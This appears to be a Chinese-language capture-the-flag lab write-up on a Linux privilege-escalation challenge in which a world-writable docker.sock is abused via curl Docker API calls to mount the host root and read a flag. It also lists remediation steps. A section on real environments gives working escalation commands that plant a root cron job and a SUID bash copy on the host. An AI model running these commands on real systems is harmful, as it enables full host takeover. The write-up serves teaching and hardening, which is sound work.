

# 第 9 题：docker.sock 就是 root（lx09 · docker socket 暴露）

| 项目 | 内容 |
| --- | --- |
| 题目名称 | docker.sock 就是 root |
| 题目类型 | Linux 提权 · 权限配置缺陷（docker socket 可写） |
| 难度 | ★★★☆☆（medium） |
| 镜像 | `priv-lx09-docker-socket:latest`（tar 包 `_images/lx09-docker-socket.tar`，363 MB） |
| 端口 | 22 → 宿主机 `22009` |
| 账号 | `player / Player@2026` |
| 目标 | 通过 socket 以 root 视角读出 `/flag.txt` |
| Flag | **每题固定**（`flag.txt` 构建时写入 `/flag.txt`，`root:root 0400`，十题互不相同）；本题为 `Ly_Flag{bl6c0a21}` |
| 题目文件夹 | `lx09-docker-socket/` |

---

## 一、环境与部署

### 1.1 目录结构

```text
lx09-docker-socket/
├── Dockerfile
├── dockerd-sim.py       # 只读 Docker API 端点（python3 实现）
├── project-init.sh      # 运行时把 flag 注入宿主视图 + 拉起端点
├── motd
├── README.md
├── 解题.md              # 本文件
├── Linux提权-9.pptx            # 讲解用 PPT
└── images/              # 终端截图素材
```

公共层在 `_common/`：`Dockerfile.base`（基础镜像 `priv-base`）、`entrypoint.sh`（首启生成 flag + 起 sshd）、`make_flag.sh`（flag 生成器）。

### 1.2 构建与启动

```bash
# 基础层（只需一次）
docker build -f _common/Dockerfile.base -t priv-base:latest _common/

# 本题目（flag 不在构建期生成，可不用 --no-cache）
docker build -t priv-lx09-docker-socket:latest lx09-docker-socket/

docker run -d --name lx09 -p 22009:22 --restart unless-stopped \
    priv-lx09-docker-socket:latest
```

登录：

```bash
ssh -p 22009 player@<宿主机IP>
# 密码：Player@2026
```

### 1.3 容器内的关键配置

| 路径 | 权限 | 说明 |
| --- | --- | --- |
| `/flag.txt` | `-r-------- root root` | 构建时由题目目录的 `flag.txt` 写入，每题固定 |
| `/var/run/docker.sock` | `srw-rw-rw- root:root` | **唯一提权面**，用户态 API 端点监听 |
| `/var/lib/dockersim/` | `root:root 0700` | 端点私有目录，普通用户进不去 |
| `/var/lib/dockersim/hostroot/` | `root:root 0755`（父目录 0700） | “宿主根视图”，运行时才注入 flag 副本 |
| `/usr/local/sbin/dockerd-sim.py` | `root:root 0755` | API 端点程序 |
| `/usr/local/sbin/project-init.sh` | `root:root 0755` | 运行时初始化脚本 |

`player`：uid 1001，无 sudo、无 docker 组，只能靠 socket 的 `666` 权限访问端点。

---

## 二、题目考点

1. **能读写 `docker.sock` ≈ root**：docker daemon 以 root 身份运行，任何能调它 API 的人都可以申请“挂载宿主目录 / 执行命令”，这是 `docker` 组等价 root 的根因。
2. **不装 docker 客户端也能用 API**：`curl --unix-socket` 直接说 HTTP，比装客户端更通用；`GET /version` 是最轻的探活。
3. **Docker API 的容器生命周期**：`POST /containers/create` → `POST /containers/{id}/start` → `GET /containers/{id}/logs`，三个请求就能拿到“容器输出”。
4. **`-v /:/host` 的含义**：把宿主根挂进容器，容器里的 `/host/flag.txt` 就是宿主的 `/flag.txt`；容器进程以 root 运行，所以能读 `0400` 的 flag。
5. **边界：本题端点只做读**：这是刻意设计——端点只接受 `/` 作为挂载源、只接受 `cat/ls/id/whoami/uname` 这五个只读命令、所有路径都做 `realpath` 收敛检查，程序里**没有任何 `subprocess`**。所以它演示的是“socket=root 的读取面”，不会变成真的容器逃逸。

---

## 三、解题过程

### 3.1 第一步：确认身份与提权面

```bash
id
# uid=1001(player) gid=1001(player) groups=1001(player)
```

```bash
cat /flag.txt
# cat: /flag.txt: Permission denied
```

flag 是 `0400 root`，直接读不行；`sudo` 也没有授权。`motd` 说这台机器是 CI runner，流水线用本地 Docker API 端点，于是看 socket：

```bash
ls -l /var/run/docker.sock
# srw-rw-rw- 1 root root 0 ... /var/run/docker.sock
```

`srw-rw-rw-`——所有人可读写。这一行就是本题的全部提权面。

### 3.2 第二步：用 curl 直接调 API 探活

```bash
curl -s --unix-socket /var/run/docker.sock http://localhost/version
# {"Version": "24.0.7", "ApiVersion": "1.43", "Os": "linux", ...}
```

不需要 docker 客户端，HTTP 走 unix socket 即可。

### 3.3 第三步：创建“容器”，把宿主根挂到 /host

```bash
curl -s --unix-socket /var/run/docker.sock -X POST \
  -H 'Content-Type: application/json' \
  -d '{"Image":"alpine","Cmd":["cat","/host/flag.txt"],"Binds":["/:/host"]}' \
  http://localhost/containers/create
# {"Id": "49c7250a052f", "Warnings": []}
```

请求里的三个关键字段：

| 字段 | 值 | 含义 |
| --- | --- | --- |
| `Binds` | `["/:/host"]` | 宿主根 `/` 挂到容器的 `/host`（等价 `-v /:/host`） |
| `Cmd` | `["cat","/host/flag.txt"]` | 容器启动后执行的命令 |
| `Image` | `alpine` | 镜像名，本题端点只记录不拉取 |

### 3.4 第四步：启动并读日志

```bash
CID=$(curl -s --unix-socket /var/run/docker.sock -X POST \
  -H 'Content-Type: application/json' \
  -d '{"Image":"alpine","Cmd":["cat","/host/flag.txt"],"Binds":["/:/host"]}' \
  http://localhost/containers/create | jq -r .Id)

curl -s --unix-socket /var/run/docker.sock -X POST \
  http://localhost/containers/$CID/start

curl -s --unix-socket /var/run/docker.sock \
  http://localhost/containers/$CID/logs
# [sim] bind /var/lib/dockersim/hostroot -> /host (read-only host root view)
# Ly_Flag{bl6c0a21}
```



### 3.5 为什么这就等于 root

端点背后的进程以 root 运行：路径翻译、文件打开都是 root 身份完成的，`0400 root` 的 flag 对它完全可读。普通用户拿不到这条路径，只能借端点的身份。

真实环境里这条链是 `docker -H unix:///var/run/docker.sock run --rm -v /:/host alpine cat /host/flag.txt`，效果一样，而且能写能执行——**所以“给我 docker 权限”从来不是小权限**。

---

## 四、验证记录（本次实测）

镜像在 Ubuntu 24.04（Docker 28.5.1）上构建，`docker run -d -p 22009:22` 启动，
以 `player` 通过 SSH 实测（完整日志见 `_logs/test.log`）：

| 方向 | 操作 | 预期 | 实测结果 |
|---|---|---|---|
| 身份基线 | `id` | uid=1001(player) | ✅ `uid=1001(player) gid=1001(player)`，无 docker 组 |
| 直接读 flag | `cat /flag.txt` | 拒绝 | ✅ `Permission denied` |
| 宿主视图 | `cat /var/lib/dockersim/hostroot/flag.txt` | 拒绝 | ✅ 父目录 `0700 root`，`Permission denied` |
| sudo | `sudo -S id` | 拒绝 | ✅ `player is not in the sudoers file` |
| 其他面 | `find / -perm -4000`、`/etc/cron.d` | 无自定义提权面 | ✅ 只有系统自带 SUID 与 `e2scrub_all` 干扰 |
| 端点探活 | `curl /version` | 正常应答 | ✅ `"Version": "24.0.7"` |
| 负向：不挂载 | `Binds: []` + `cat /host/flag.txt` | 读不到 | ✅ `No such file or directory` |
| 负向：挂别的目录 | `Binds: ["/etc:/e"]` | 被策略拒绝 | ✅ `bind source '/etc' rejected: only '/' is allowed` |
| 负向：要 shell | `Cmd: ["sh","-c","id"]` | 被策略拒绝 | ✅ `command 'sh' not permitted` |
| 负向：路径穿越 | `cat /host/../../flag.txt` | 被收敛检查拦住 | ✅ `Permission denied (outside container rootfs)` |
| **正向** | `/:/host` + `cat /host/flag.txt` | 得到 flag | ✅ `Ly_Flag{bl6c0a21}` |

补充构建侧检查：

| 检查 | 结果 |
|---|---|
| 镜像内 `/flag.txt` | `docker run --rm … cat /flag.txt` → `Ly_Flag{bl6c0a21}`，`400 root`（✅ 每题固定） |
| 容器首启 flag | `docker exec lx09 cat /flag.txt` → `Ly_Flag{bl6c0a21}`，`0400 root` |
| 端点是否执行外部命令 | `dockerd-sim.py` 全文无 `subprocess`，命令仅白名单五个只读工具（✅ 不构成真实逃逸） |
| 容器内是否有真 docker.sock | 无；socket 由 `dockerd-sim.py` 自己创建并 `chmod 666` |

结论：**唯一提权面成立，唯一解成立；除正向解外没有第二条能读到 flag 的路。**

---

## 五、教学要点与修复建议

### 教学要点

1. `docker.sock` 的权限必须当 root 看：`srw-rw-rw-`、或者把用户加进 `docker` 组，等于直接发 root。
2. 没有客户端也能打 API：`curl --unix-socket` 就是最小的“docker 客户端”。
3. 会读 `/version` 只是开始，真正的利用点在 `containers/create` 的 `Binds` 与 `Cmd`。
4. `-v /:/host` 是“宿主根进容器”的标准写法，也是各类容器逃逸教程的第一句。
5. 本题端点被刻意收窄成只读（只允许 `/` 挂载 + 五个只读命令 + `realpath` 收敛），所以它在教学上等价真实 docker socket，但不会让选手真的打到容器外。

### 修复建议

```bash
# 1. socket 只给必要的组，且组内成员按 root 对待
chown root:docker /var/run/docker.sock
chmod 660 /var/run/docker.sock

# 2. 不要把普通用户随手加进 docker 组
gpasswd -d player docker

# 3. 必须给低权限用户用容器能力时，用 rootless docker / podman，
#    或在 socket 前面放一层只读 API 代理（只放行需要的接口）

# 4. 审计：谁在监听 /var/run/docker.sock，谁在组里
ss -xlp | grep docker.sock
getent group docker
```

### 部署信息（本次构建）

| 项 | 值 |
|---|---|
| 构建机 | 192.168.204.178（Ubuntu 24.04，Docker 28.5.1） |
| 镜像 | `priv-lx09-docker-socket:latest`，镜像内容约 373 MB（基础层 `priv-base:latest`） |
| 启动 | `docker run -d --name lx09 -p 22009:22 priv-lx09-docker-socket:latest` |
| 导出 | `docker save priv-lx09-docker-socket:latest -o lx09-docker-socket.tar`（纯 tar 未压缩，363 MB，sha256 `f280af187f5f3267572edf6b034a86fcaf9ca3ee188b26f66c132ec420655414`） |
| 本地 | `_images/lx09-docker-socket.tar`，`docker load -i lx09-docker-socket.tar` 即可复现 |

---

## 六、真实环境对照（模拟 vs 真实）

本题的端点是**只读模拟**：只接受 `/` 作为挂载源、只放行 `cat/ls/id/whoami/uname`、
所有路径做 `realpath` 收敛、程序内没有 `subprocess`。它能证明“socket 的身份就是 root”，
但不会执行任意命令，也不会成为真正的容器逃逸。真实环境里的利用如下。

### 6.1 前置条件

```bash
ls -l /var/run/docker.sock
# srw-rw-rw- 1 root root ... /var/run/docker.sock   （或 660 root:docker + 玩家在 docker 组）
```

真正的 socket 背后是 `dockerd`，以 root 运行。

### 6.2 真实利用（读取）

```bash
docker -H unix:///var/run/docker.sock run --rm -v /:/host alpine cat /host/flag.txt
```

等价的原生 API 调用：

```bash
curl -s --unix-socket /var/run/docker.sock -X POST \
  -H 'Content-Type: application/json' \
  -d '{"Image":"alpine","Cmd":["cat","/host/flag.txt"],"Binds":["/:/host"],"Privileged":true}' \
  http://localhost/containers/create
# → start → logs，输出宿主的 /flag.txt
```

### 6.3 真实逃逸（不止读 flag）

拿到真 socket 后，宿主根是**可读可写**的：

```bash
# 在宿主上投一个每分钟执行的 root 任务
docker run --rm -v /:/host alpine sh -c \
  'echo "* * * * * root /tmp/.x" >> /host/etc/cron.d/pwn'

# 或直接在宿主根放 SUID
docker run --rm -v /:/host alpine sh -c 'cp /host/bin/bash /host/tmp/rootsh; chmod 4755 /host/tmp/rootsh'
```

`--privileged` 容器还能 `mount`、改内核参数、访问宿主设备，属于完整逃逸。

### 6.4 与本题的差异与边界

| 项 | 本题（模拟） | 真实环境 |
| --- | --- | --- |
| socket 后端 | Python 只读端点 | 真 `dockerd`（root） |
| 命令能力 | 五个只读工具，无 `subprocess` | 任意镜像、任意命令 |
| 宿主影响 | 只读宿主视图（flag 副本） | 宿主根可读写、可投 cron/SUID |
| 风险等级 | 仅容器内提权 | 完整容器逃逸 |

> 真 socket 只能在隔离实验机上演示（见 `deploy.md` 第七节）；生产上 socket 权限应为 `660 root:docker`，低权限用户改用 rootless docker / podman，或在 socket 前放只读 API 代理。

### 6.5 运行态核对（2026-11-19 VM 实测）

十道题的容器全部为默认权限运行，可作为“无宿主逃逸面”的运行时证据：

```text
lx01..lx10: Privileged=false  CapAdd=[]  Binds=[]  Devices=[]  NetworkMode=bridge  PidMode=空
daemon: /etc/docker/daemon.json 仅配置 registry-mirrors（未启用 userns-remap）
SecurityOptions: apparmor, seccomp(profile=builtin), cgroupns
```
